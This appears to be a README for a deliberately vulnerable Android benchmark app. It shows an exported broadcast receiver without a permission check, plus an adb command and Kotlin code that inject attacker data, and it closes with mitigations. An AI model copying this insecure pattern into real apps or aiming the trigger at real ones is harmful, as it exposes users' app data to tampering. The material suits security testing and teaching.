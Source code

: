 # oxo-android-ben32 Critical broadcast receiver is not protected

This Android application benchmark, oxo-android-ben33, demonstrates a common security vulnerability where a broadcast receiver is exported without proper protection. This allows any other application on the device to send a broadcast intent to it, potentially leading to unauthorized data manipulation or a denial-of-service.

### Technical Details

The vulnerability lies in the `Receiver.kt` file and the AndroidManifest.xml.

- `AndroidManifest.xml`: The `<receiver>` component for the Receiver class is declared with `android:exported="true"`, making it accessible to other applications. Crucially, it does not specify a `permission` attribute to restrict who can send intents to it.

```
<receiver
    android:name=".Receiver"
    android:exported="true">
    <intent-filter>
        <action android:name="com.example.vulnerablereceiverapp.TRIGGER"/>
    </intent-filter>
</receiver>
```

- Receiver.kt: The onReceive() method processes incoming intents without any checks on the sender's origin or permissions. It directly uses data from the intent's extras ("message" and "amount") to perform a sensitive action:

- It writes the data to the app's SharedPreferences, simulating the storage of attacker-controlled data.

- It displays a Toast message with the received data, providing a visible confirmation of the attack.


```

// No origin checks, no permission checks, trusts all extras blindly
val msg = intent.getStringExtra("message") ?: "(no message)"
val amount = intent.getIntExtra("amount", 0)

// Simulate a sensitive action
val prefs = context.getSharedPreferences("secrets", Context.MODE_PRIVATE)
prefs.edit()
    .putString("last_incoming_message", msg)
    .putInt("last_amount", amount)
    .apply()
```

### Exploitation

A malicious app can exploit this vulnerability with a simple Broadcast intent. By knowing the vulnerable app's package name and the broadcast action, an attacker can send an intent with arbitrary data.


Example Attack via `adb shell`

You can exploit this vulnerability from a computer connected to the device via ADB (Android Debug Bridge) using the am broadcast command.


```
adb shell am broadcast \
    -a com.example.vulnerablereceiverapp.TRIGGER \
    -n com.example.vulnerablereceiverapp/.Receiver \
    --es message "Pwned from ADB" \
    --ei amount 1337
```

This command will send a broadcast intent to the vulnerable receiver, which will then display a toast message on the device's screen.

#### Example Attack Code (from another app)

A malicious app can also trigger this vulnerability programmatically:

```angular2html
val intent = Intent("com.example.vulnerablereceiverapp.TRIGGER")
intent.setPackage("com.example.vulnerablereceiverapp") // Target the vulnerable app
intent.putExtra("message", "!! I am an attacker !!")
intent.putExtra("amount", 1337)

context.sendBroadcast(intent)
```

This code, when executed by an external app, will trigger the Receiver in the vulnerable application, writing "!! I am an attacker !!" to its shared preferences and displaying a toast message to the user.


### Mitigations

To prevent this vulnerability, developers should:

- Restrict access with permissions: Define and require a custom permission for the broadcast receiver, and ensure only trusted components (or the app itself) have this permission.

- Set exported="false": If the broadcast receiver is only for internal use within the app, explicitly set android:exported="false" in the manifest.

- Validate the sender: In the onReceive() method, check the sender's identity using Context.checkCallingOrSelfPermission() or other secure validation methods.

By applying these mitigations, the broadcast receiver can be protected from unauthorized external access.